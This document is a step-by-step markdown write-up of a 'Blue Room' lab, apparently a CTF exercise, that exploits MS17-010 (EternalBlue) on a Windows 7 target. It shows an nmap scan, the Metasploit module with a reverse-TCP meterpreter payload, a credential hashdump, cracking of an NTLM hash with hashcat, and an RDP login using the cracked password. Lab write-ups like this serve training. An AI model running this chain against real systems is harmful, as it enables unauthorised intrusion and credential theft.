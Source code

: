 # The Blue Room - EternalBlue Exploit Workshop

## Overview

In this workshop, we focus on exploiting **MS17-010 (EternalBlue)**, a critical SMB vulnerability that allows remote code execution on unpatched Windows machines. We used **Metasploit** to gain access to a target system. This is a step-by-step guide to exploit the vulnerability and gain access to a machine.

---

## Table of Contents

1. [Enumeration Phase](#enumeration-phase)
2. [Exploitation Phase](#exploitation-phase)
3. [Cracking Phase](#cracking-phase)
4. [Accessing the Target](#accessing-the-target)
5. [Conclusion](#conclusion)

---

## Enumeration Phase

We started by performing an **Nmap scan** to discover open ports, services, and the operating system of the target machine. Here is the command used for enumeration:

```bash
nmap <TARGET-IP> -A -v

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC

OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
Workgroup: WORKGROUP

```
The scan revealed several open ports, including 135/tcp (Microsoft RPC), 139/tcp (NetBIOS), and 445/tcp (Microsoft DS), which are commonly associated with **SMB and RPC services**. Additionally, the target machine is running **Windows 7 Professional 7601 Service Pack 1** in the WORKGROUP workgroup, making it potentially vulnerable to the EternalBlue exploit (MS17-010)

## Exploitation Phase
Next, we'll proceed with the exploitation phase where we use **Metasploit** to automate the exploitation of the MS17-010 (**EternalBlue**) vulnerability.

```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <TARGET-IP>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR-IP>
exploit
```
## Cracking Phase

```bash
hashdump  # Dump user credentials

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

you need to extract the Jon user hashed password which is in this case "**ffb43f0de35be4d9917ac0cc8ad57f8d**"

```bash
hashcat -m 1000 -a 0 "ffb43f0de35be4d9917ac0cc8ad57f8d" /usr/share/wordlists/rockyou.txt

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

ffb43f0de35be4d9917ac0cc8ad57f8d:alqfna22                 
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: ffb43f0de35be4d9917ac0cc8ad57f8d
Time.Started.....: Sun Mar  9 17:27:18 2025 (3 secs)
Time.Estimated...: Sun Mar  9 17:27:21 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  4873.3 kH/s (0.08ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10201600/14344385 (71.12%)
Rejected.........: 0/10201600 (0.00%)
Restore.Point....: 10199040/14344385 (71.10%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: alsinah -> alpha2345
Hardware.Mon.#1..: Util: 24%
```

we found the password which is "**alqfna22**"


## Accessing the Target

since the RDP PORT is open we can use 

```bash
rdesktop -u Jon -p alqfna22 <TARGET-IP>
```
![rdesktop](rdesktop.png)

we are in and we have **full control** on the JON PC . It's like we are controlling his own PC at home.
